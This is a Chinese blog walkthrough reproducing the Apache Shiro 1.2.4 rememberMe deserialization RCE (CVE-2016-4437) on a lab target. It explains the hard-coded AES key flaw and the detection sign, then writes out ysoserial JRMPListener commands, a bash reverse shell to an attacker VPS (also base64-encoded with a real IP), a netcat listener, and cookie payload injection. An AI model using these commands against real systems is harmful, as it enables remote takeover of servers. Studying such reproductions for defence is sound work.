



# Apache Shiro 1.2.4 反序列化漏洞(CVE-2016-4437) 复现 - 弟中第 - 博客园

> 原文：[`www.cnblogs.com/dizhongdi/p/13221903.html`](https://www.cnblogs.com/dizhongdi/p/13221903.html)

**前言**

Apache Shiro 是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro 框架直观、易用，同时也能提供健壮的安全性。

**影响版本**

Apache Shiro <= 1.2.4

**漏洞原理**

Apache Shiro 1.2.4 及以前版本中，Apache Shiro 默认使用了 CookieRememberMeManager，其处理 cookie 的流程是：得到 rememberMe 的 cookie 值 > Base64 解码–>AES 解密–>反序列化。然而 AES 的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的 RCE 漏洞

**漏洞特征**

shiro 反序列化的特征：在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段


** 漏洞复现**

1.靶场地址：[`vulfocus.fofa.so/`](http://vulfocus.fofa.so/)

2.exp 下载地址：[`pan.baidu.com/share/init?surl=yH6phKiN3F5RihRXSPe-Qg`](https://pan.baidu.com/share/init?surl=yH6phKiN3F5RihRXSPe-Qg)（提取码 pstc）

第一步，打开公网 vps，执行如下命令：（**注意这里监听的端口为 1099）**

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹 shell 的命令"
```

 这里的命令需要使用 Java Runtime 配置 bash 编码。
在线编码转换地址：[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)
转换命令如下：**（这里是反弹 shell 的端口为 1234）**

```
bash -i >& /dev/tcp/VPS 公网 ip/1234 0>&1
```



最终在 VPS 上执行的命令如下：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80NS4zMi4yNTMuNjQvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"
```

 

 第二步，使用 exp.py 生成 payload，需要 python2 的环境，命令如下：

```
python2 exp.py 公网 VPS:1099 
```

下图为为生成的 payload


第三步，在 VPS 上，使用 nc 监听 1234 端口，命令如下：

```
nc -lvvp 1234
```

****

第四步，通过 burp 抓取任意的 http 数据包，在 cookie 中添加生成的 payload



 第五步，放过数据包，查看 VPS 中 java 监听接口，nc 监听结果。



